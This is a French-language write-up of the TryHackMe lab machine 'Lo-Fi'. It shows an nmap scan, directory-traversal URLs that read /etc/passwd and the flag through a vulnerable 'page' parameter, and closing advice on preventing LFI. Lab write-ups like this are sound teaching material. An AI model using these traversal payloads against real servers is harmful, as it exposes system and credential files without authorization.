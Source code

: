 # 📌 Write-Up : Machine Lo-Fi - TryHackMe 

## 🖥️ Informations

- **Nom de la machine** : Lo-Fi
- **Plateforme** : TryHackMe
- **Difficulté** : Facile
- **Type** : Web Exploitation - LFI (Local File Inclusion)

---

## 🏁 Objectifs

L'objectif de cette machine est d'exploiter une vulnérabilité **LFI (Local File Inclusion)** pour récupérer des fichiers sensibles sur le serveur et capturer le flag.

---

## 🔍 1. Scan et Reconnaissance

On commence par un scan des ports pour voir quels services sont accessibles.

### **Scan Nmap**

```bash
nmap -sC -sV -T4 -p- <IP_de_la_machine>
```

🔎 **Résultat :** Le site web est accessible via HTTP sur le port **80**.

---

## 🌐 2. Analyse du site web

Nous visitons la page principale et analysons l'URL. Nous remarquons que chaque page utilise un paramètre `page`, par exemple :

```
http://lo-fi.thm/?page=relax.php
```

Cela suggère que le site **inclut dynamiquement des fichiers PHP**.

---

## 💥 3. Exploitation - Local File Inclusion (LFI)

Nous testons si la LFI est possible en tentant d'inclure le fichier `/etc/passwd`.

### **Test LFI**

Nous modifions l'URL comme suit :

```
http://lo-fi.thm/?page=../../../../etc/passwd
```

🔎 **Résultat :** Le fichier `/etc/passwd` est affiché, confirmant la vulnérabilité !

Extrait du fichier :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

---

## 🏆 4. Récupération du Flag

Maintenant que nous avons confirmé la LFI, nous recherchons directement le fichier `flag.txt` :

```
http://lo-fi.thm/?page=../../../../flag.txt
```

🎉 **Flag récupéré avec succès !**

---

## 🔐 5. Protection contre la LFI

Pour éviter ce type de vulnérabilité, voici quelques bonnes pratiques :

- **Utiliser des chemins absolus** et éviter d'inclure des fichiers basés sur l'entrée utilisateur.
- **Restreindre l'accès aux fichiers sensibles** (ex: via des permissions ou un `.htaccess`).
- **Filtrer les entrées** pour empêcher les séquences `../` qui permettent de remonter dans les dossiers.
- **Désactiver `allow_url_include` et `allow_url_fopen`** dans `php.ini`.

---

## 🎯 Conclusion

La machine "Lo-Fi" illustre bien la dangerosité des failles LFI et leur exploitation. En environnement réel, cette vulnérabilité peut mener à l'exposition de données critiques et même à une exécution de code si combinée à d'autres techniques comme le **Log Poisoning**.

---

✅ **TryHackMe - Lo-Fi complété avec succès !** 🚀

